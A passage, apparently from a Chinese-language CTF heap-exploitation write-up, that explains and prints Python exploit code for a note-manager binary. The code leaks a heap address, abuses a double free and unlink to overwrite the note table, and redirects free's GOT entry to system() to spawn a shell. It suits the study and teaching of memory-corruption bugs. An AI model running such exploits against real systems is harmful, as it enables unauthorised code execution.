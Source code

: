 同样的如果让某个非使用中 chunk 的fd栏位指向另一个 chunk，并且让note的内容刚好接上，就可以把 chunk在堆上的位置给洩漏出来。这样我们就能得到堆的基址。

```
#!python
notelen=0x10    

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)  

new_note("AAAAAAAA")
list_note()
p.recvuntil("0\. AAAAAAAA")
leak = p.recvuntil("\n")    

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leakheapaddr) 

delete_note(0)
delete_note(1)
delete_note(3)  

notelen = 0x80  

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)   

delete_note(2)
delete_note(1)
delete_note(0) 
```

通过泄露的libc地址我们可以计算出 `system()` 函数和 `"/bin/sh"` 字符串在内存中的地址，通过泄露的堆的地址我们能得到note table的地址。然后我们构造一个假的note，利用使用double free的漏洞触发unlink，将note0的位置指向note table的地址。随后我们就可以通过编辑note0来编辑note table了。通过编辑note table我们把note0指向 `free()` 函数在got表中的地址，把note1指向 `"/bin/sh"` 在内存中的地址。然后我们编辑note0把 `free()` 函数在got表中的地址改为 `system()` 的地址。最后我们执行delete note1操作。因为我们把note1的地址指向了 `"/bin/sh"` ，所以正常情况下程序会执行 `free("/bin/sh")` ，但别忘了我们修改了got表中free的地址，所以程序会执行 `system("/bin/sh")` ，最终达到了我们的目的：

```
#!python
fd = leakheapaddr - 0x1808 #notetable
bk = fd + 0x8   

payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)  

new_note(payload)   

delete_note(1)  

free_got = 0x602018 

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2))  

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))   

```